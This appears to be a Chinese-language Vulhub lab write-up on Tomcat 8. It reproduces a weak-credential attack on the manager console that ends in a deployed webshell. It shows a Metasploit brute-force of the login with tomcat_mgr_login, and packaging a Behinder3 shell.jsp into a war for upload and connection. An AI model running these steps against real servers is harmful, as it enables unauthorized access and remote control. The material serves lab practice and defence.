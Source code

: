 # Tomcat8 弱口令+后台getshell漏洞

## 漏洞描述

Tomcat支持在后台部署war文件，可以直接将webshell部署到web目录下。其中，欲访问后台，需要对应用户有相应权限。

Tomcat7+权限分为：

- manager（后台管理）
  - manager-gui 拥有html页面权限
  - manager-status 拥有查看status的权限
  - manager-script 拥有text接口的权限，和status权限
  - manager-jmx 拥有jmx权限，和status权限
- host-manager（虚拟主机管理）
  - admin-gui 拥有html页面权限
  - admin-script 拥有text接口权限

这些权限的究竟有什么作用，详情阅读 http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html

在`conf/tomcat-users.xml`文件中配置用户的权限：

```
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

    <role rolename="manager-gui"/>
    <role rolename="manager-script"/>
    <role rolename="manager-jmx"/>
    <role rolename="manager-status"/>
    <role rolename="admin-gui"/>
    <role rolename="admin-script"/>
    <user username="tomcat" password="tomcat" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-gui,admin-script" />
    
</tomcat-users>
```

可见，用户tomcat拥有上述所有权限，密码是`tomcat`。

正常安装的情况下，tomcat8中默认没有任何用户，且manager页面只允许本地IP访问。只有管理员手工修改了这些属性的情况下，才可以进行攻击。

## 影响版本

Tomcat版本：8.0

## 环境搭建

Vulhub无需编译，直接启动整个环境：

```
docker-compose up -d
```

访问`http://your-ip:8080/`即可访问Apache Tomcat/8.0.43页面。

## 漏洞复现

### metasploit爆破tomcat弱口令

访问`http://your-ip:8080/`，点击Manager App：

![image-20220412133434883](./images/image-20220412133434883.png)

跳转tomcat管理页面`http://your-ip:8080/manager/html`，提示输入用户名和密码：

![image-20220412133846764](./images/image-20220412133846764.png)

在kali中使用metasploit对tomcat用户名和密码进行爆破：

```
┌──(root kali)-[/home/kali]
└─# msfconsole

# 搜索tomcat相关模块
msf6 > search tomcat
...
   23  auxiliary/scanner/http/tomcat_mgr_login	normal     No     Tomcat Application Manager Login Utility
...

# 使用tomcat_mgr_login模块进行爆破
msf6 > use auxiliary/scanner/http/tomcat_mgr_login

# 设置服务地址
msf6 auxiliary(scanner/http/tomcat_mgr_login) >show options
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS <your-ip>
RHOSTS => <your-ip>
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run
```

爆破成功，用户名密码为`tomcat:tomcat`：

![image-20220412135451368](./images/image-20220412135451368.png)

输入弱密码`tomcat:tomcat`，即可访问后台。

### 制作war包并上传

首先制作war包`project.war`：

```
E:\Behinder3\server>jar -cvf project.war shell.jsp
已添加清单
正在添加: shell.jsp(输入 = 612) (输出 = 449)(压缩了 26%)
```

上传war包：

![image-20220412135536050](./images/image-20220412135536050.png)

成功部署：

![image-20220412140450360](./images/image-20220412140450360.png)

冰蝎3成功连接`http://your-ip:8080/project/shell.jsp`：

![image-20220412143831721](./images/image-20220412143831721.png)

